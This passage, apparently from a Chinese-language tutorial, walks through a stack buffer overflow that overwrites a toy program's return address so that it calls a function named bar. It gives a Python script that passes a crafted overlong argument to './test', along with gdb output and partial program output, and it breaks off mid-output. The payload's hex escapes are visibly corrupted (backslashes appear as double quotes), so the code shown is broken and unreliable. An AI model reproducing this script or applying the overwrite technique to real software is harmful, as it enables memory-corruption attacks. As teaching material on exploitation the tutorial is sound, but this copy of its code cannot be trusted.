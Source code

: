 <span style="color: #ffffff;">0</span><span style="color: #ffffff;">x080484a0</span> <span style="color: #ffffff;">&lt;</span><span style="color: #ffffff;">main</span><span style="color: #ffffff;">+</span><span style="color: #ffffff;">115</span><span style="color: #ffffff;">&gt;:</span>&nbsp;<span style="color: #ffffff;">call</span><span style="color: #ffffff;">&nbsp;&nbsp; </span><span style="color: #ffffff;">0</span><span style="color: #ffffff;">x8048340</span> <span style="color: #ffffff;">&lt;</span><span style="color: #ffffff;">puts@plt</span><span style="color: #ffffff;">&gt;</span></div>
</div>

&nbsp;

因此，我们只要输入一个超长的字符串，覆盖掉0x08048499，变成bar的函数地址0x8048419，就达到了调用bar函数的目的。为了将0x8048419这样的东西输入到应用程序，我们需要借助于Perl或Python脚本，如下面的Python脚本： 

<div dir="ltr">
<div style="border: 1px solid #cccccc; padding: 4px 5px 4px 14px; background-color: #333333; color: #ffffff;">import <span style="color: #0e84b5; font-weight: bold;">os</span>

arg <span style="color: #666666;">=</span> <span style="color: #4070a0;">'ABCDEFGHIJKLMN'</span> <span style="color: #666666;">+</span> <span style="color: #4070a0;">'</span><span style="color: #4070a0; font-weight: bold;">"x19"x84"x04"x08</span><span style="color: #4070a0;">'</span>

cmd <span style="color: #666666;">=</span> <span style="color: #4070a0;">'./test '</span> <span style="color: #666666;">+</span> arg

os<span style="color: #666666;">.</span>system(cmd)</div>
</div>

&nbsp;

注意上面的08 04 84 19要两个两个反着写。执行一下： 

<div dir="ltr">
<div style="border: 1px solid #cccccc; padding: 4px 5px 4px 14px; background-color: #333333; color: #ffffff;"><span style="color: #ffffff;">$</span><span style="color: #ffffff;">python</span> <span style="color: #ffffff;">hack</span><span style="color: #ffffff;">.</span><span style="color: #ffffff;">py</span> 

<span style="color: #ffffff;">Address</span> <span style="color: #ffffff;">of</span> <span style="color: #ffffff;">foo</span> <span style="color: #ffffff;">=</span> <span style="color: #ffffff;">0x80483d4</span>

<span style="color: #ffffff;">Address</span> <span style="color: #ffffff;">of</span> <span style="color: #ffffff;">bar</span> <span style="color: #ffffff;">=</span> <span style="color: #ffffff;">0x8048419</span><span style="color: #ffffff;">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; </span><span style="color: #87ceeb;">//bar的函数地址</span>

<span style="color: #ffffff;">My</span> <span style="color: #ffffff;">stack</span> <span style="color: #ffffff;">looks</span> <span style="color: #ffffff;">like:</span>

<span style="color: #ffffff;">0xb7fc24e0</span>

<span style="color: #ffffff;">0x8048616</span>

<span style="color: #ffffff;">0xbf832484</span>

<span style="color: #ffffff;">0xbf832484</span>

<span style="color: #ffffff;">0xb7fc1ff4</span>
